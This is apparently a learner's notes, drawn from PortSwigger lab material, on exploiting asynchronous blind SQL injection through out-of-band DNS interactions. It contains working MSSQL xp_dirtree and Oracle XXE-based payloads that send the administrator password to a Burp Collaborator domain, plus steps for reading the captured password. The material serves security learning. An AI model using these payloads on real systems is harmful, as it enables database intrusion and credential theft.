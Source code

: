 ## Exploiting blind SQL injection using out-of-band (OAST) techniques

   

[OAST (out-of-band application security testing)](https://portswigger.net/burp/application-security-testing/oast)

  
  
Now, suppose that the application carries out the same SQL query, but does it _asynchronously_. The application continues processing the user's request in the original thread, and uses another thread to execute an SQL query using the tracking cookie.  
  
  
The query is still vulnerable to SQL injection, however none of the techniques described so far will work::  
>`the application's response doesn't depend on whether the query returns any data,  
or on whether a database error occurs,  
or on the time taken to execute the query`  
  
  
In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time. But more powerfully, data can be exfiltrated directly within the network interaction itself.  
A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.  
  
The easiest and most reliable way to use out-of-band techniques is using [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator). This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Support for Burp Collaborator is built in to [Burp Suite Professional](https://portswigger.net/burp/pro) with no configuration required.  
  
  
**NOTE**: _The techniques for triggering a DNS query are highly specific to the type of database being used._  
  
  
On Microsoft SQL Server, input like the following can be used to cause a DNS lookup on a specified domain:  
``'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--  ``
This will cause the database to perform a lookup for the following domain:  
>0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net  
  
You can use Burp Suite's [Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur.  
  
> Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application.  
  
For example:  
``'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--  ``
  
_This input reads the password for the Administrator user, appends a unique Collaborator subdomain, and triggers a DNS lookup._  
This will result in a DNS lookup like the following, allowing you to view the captured password:  
>S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net  
  
Out-of-band (OAST) techniques are an extremely powerful way to detect and exploit blind SQL injection, due to the highly likelihood of success and the ability to directly exfiltrate data within the out-of-band channel. For this reason, _OAST techniques are often preferable even in situations where other techniques for blind exploitation do work._  
  

### Note

  
There are various ways of triggering out-of-band interactions, and different techniques apply on different types of database. For more details, see the [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).  
  
  
**Out of Band(OAST) techniques on Oracle Database**:  

Combining SQL injection with basic [XXE](https://portswigger.net/web-security/xxe) techniques as follows:  
  
```'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--  ```
  
//we can get the collaborator ID from Burp Collaborator Client > Copy to clipboard > paste by replacing collaborator id  
  
After succesful DNS lookup:  
Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side query is executed asynchronously.  
• You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The password of the `administrator` user should appear in the subdomain of the interaction, and you can view this within the Burp Collaborator client.  
For DNS interactions, the full domain name that was looked up is shown in the Description tab.  
For HTTP interactions, the full domain name is shown in the Host header in the Request to Collaborator tab.  
  
Below the selected text is the administrator password:  
  
![file:///tmp/.MLQWB1/1.png](file:///tmp/.MLQWB1/1.png)